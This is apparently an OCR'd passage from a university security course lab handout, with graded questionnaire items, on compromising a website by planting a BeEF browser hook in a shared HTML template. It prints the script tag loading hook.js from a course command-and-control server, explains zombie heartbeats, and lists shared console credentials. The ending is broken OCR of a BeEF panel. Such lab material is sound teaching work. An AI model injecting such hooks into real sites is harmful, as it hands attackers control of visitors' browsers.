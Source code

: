 clients assets

$ find / -iname client_md5

Result: /xx/xx/clients assets/ client md5

<ol start="2">
<li>Find the best template file to insert the malicious script payload.
<ul>
<li>Most modern websites follow a certain organized structure — frequently used resources are put into templates for efficient reuse. For example, the same navigation bar may be used repeatedly throughout many pages of a website. Therefore, a website admin can save the navigation bar as a template in navigation . html and have those pages that need to display the navigation bar import navigation . html . From the attacker’s perspective, finding and modifying such a template is optimum as this modification is minimal yet impactful. Your goal is to figure out which template HTML under the templates directory in Bob’s website directory makes the most sense to insert the malicious script payload into. Submit your answer (in the format of xxx . html ) to QI.2.2 in the questionnaire. Note: make sure your spelling is correct. Incorrect file name by any means leads to O pts for this task.</li>
<li>Hints:</li>
<li>Think about what type of data you are trying to insert into the</li>
<li>The correct template file has a hint at the beginning of the content indicating you have found the correct one.</li>
<li>You don’t need to check files in the sub-directories. All you need to do is examine the HTML files right under the templates</li>
</ul>
</li>
<li>Insert the malicious script into the target.
<ul>
<li>Once you have found the best template file, the next step is to insert the malicious payload. A smart practice attackers typically follow is that instead of deploying a one-time attack, they install a remote hook on the victim’s page/machine that can connect to an attacker-owned Control and Command (C&amp;C) server. When the remote hook gets triggered (the infected webpage is open), it constantly emits heartbeats to the C&amp;C server to notify the attacker a zombie is online. Then the attacker can freely issue any preconfigured attack commands to the zombie.</li>
<li>In this project:</li>
<li>We use BeEF as the C&amp;C console, which you can find on the project page. The username and password are both: beef_for_cs6264</li>
<li>The remote hook to install in the template HTML should contain the following.</li>
</ul>
</li>
</ol>
&lt;script src=”http://cs6264.gtisc . gatech . edu: YOUR_BEEF_PORT / hook.js”&gt;&lt;/script&gt;

cs6264.gtisc.gatech.ed 39069 ui/panel

<table width="327">
<tbody>
<tr>
<td width="7"></td>
<td width="320">&nbsp;

<table width="318">
<tbody>
<tr>
<td width="106">Getting Started</td>
<td width="106">Logs</td>
<td width="105">Zombies</td>
</tr>
<tr>
<td colspan="3" width="318">=eEF
